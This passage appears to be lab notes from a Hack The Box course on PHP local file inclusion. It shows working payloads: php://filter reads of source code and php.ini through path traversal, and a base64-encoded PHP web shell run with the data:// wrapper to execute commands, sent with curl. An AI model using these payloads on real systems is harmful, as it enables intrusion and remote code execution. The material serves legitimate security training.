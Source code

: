 ```shell-session
NolanCarougeHTB@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the `base64` PHP filter.

```url
php://filter/read=convert.base64-encode/resource=config
```

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

## PHP Wrappers : 

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.

```shell
NolanCarougeHTB@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

```shell
NolanCarougeHTB@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

We can use the `data` wrapper.

```shell-session
NolanCarougeHTB@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64
```

```
http://<SERVER_IP>:<PORT>/index.php?
language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

Or

```shell
NolanCarougeHTB@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. The `input` wrapper also depends on the `allow_url_include` setting.
